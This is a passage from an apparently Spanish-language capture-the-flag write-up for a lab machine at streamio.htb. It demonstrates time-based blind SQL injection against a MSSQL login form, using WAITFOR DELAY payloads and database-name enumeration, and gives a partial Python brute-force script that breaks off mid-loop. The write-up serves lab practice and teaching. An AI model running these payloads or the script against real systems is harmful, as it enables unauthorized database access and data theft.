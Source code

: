 Vaya ninguna funciona, intentemos alternativas relacionada al 'SLEEP' como 'WAITFOR DELAY'

```
admin' waitfor delay'0:0:5'-- -
```

Esto hace que la web tarde 5 segundos en responder, y ...

Funciona!!! podemos ahora enumerar las columnas actualmente en uso

```
admin' order by 1,2,3,4 waitfor delay '0:0:5'-- -
```

Existen 4 columnas, pero no vemos que nos reporte ningún error en la página web

Tocara hacerlo a ciegas y basandonos en el tiempo de respuesta de la página

Basandonos en el siguien argumento, podemos enumerar las bases de datos ordenas por nombres
```sql
if (select substring(name,1,1) from sys.databases order by name offset 0 rows fetch next 1 row only)='m' waitfor delay'0:0:5'
```

### Script en Python [+](#script-python) {#script-python}

Para no repetir y cambiando cada rato el número y el caracter , podemos automatizarlo con un script hecho en python

```ruby
#!/usr/bin/python3

from pwn import *
import requests
import pdb
import string
import time
import urllib3

#Variables Globales
ip_address = "https://streamio.htb/login.php"
caracter = string.ascii_lowercase

def sqlinyección():
    
    p1 = log.progress("Fuerza Bruta")
    p1.status("Fuerza Bruta")

    p2 = log.progress("Base de Datos")

    Databases = ""
    
    for columna in range(0, 10):
        for posición in range(1, 10):
            for palabras in caracter:
                
                urllib3.disable_warnings()

				payload = "if (select substring(name, %d, 1) from sys.databases order by name offset %d rows fetch next 1 row only)='%c' waitfor delay'0:0:5'--" % (posición, columna, palabras)

                post_data = {
	                'username': "admin'%s" % (payload),
                    'password': 'admin'
                }

                p1.status(post_data['username'])
                
                
```